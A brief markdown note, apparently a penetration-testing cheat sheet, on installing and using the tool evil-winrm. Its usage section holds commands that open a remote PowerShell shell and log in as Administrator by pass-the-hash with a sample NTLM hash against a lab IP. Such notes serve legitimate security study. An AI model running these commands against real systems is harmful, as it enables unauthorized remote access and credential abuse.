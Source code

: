 -- -
### Install
```bash
sudo gem install evil-winrm
```
### Usage
```bash
# results in a shell (over PowerShell Remot Protocol)
evil-winrm -i <IP> -u <username> -p <password> 

# Pass-the-Hash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```